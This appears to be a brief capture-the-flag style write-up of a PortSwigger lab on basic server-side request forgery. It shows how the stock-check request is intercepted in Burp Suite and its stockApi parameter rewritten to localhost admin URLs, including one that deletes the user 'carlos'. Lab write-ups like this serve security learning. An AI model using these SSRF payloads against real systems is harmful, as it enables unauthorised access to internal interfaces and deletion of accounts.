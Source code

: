 # Basic SSRF against the local server

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

### step1

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin

forword request

![screenshot](./images/portswigger_wsa/P01_server_side_topic/P09_ssrf/images/lab1_admin_panel.png)

inspect carlos delete

![screenshot](./images/lab1_inspect_carlos.png)

href="/admin/delete?username=carlos"

### step3

now again

### step1 but add ''/admin/delete?username=carlos

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin/delete?username=carlos

forword request

lab solved
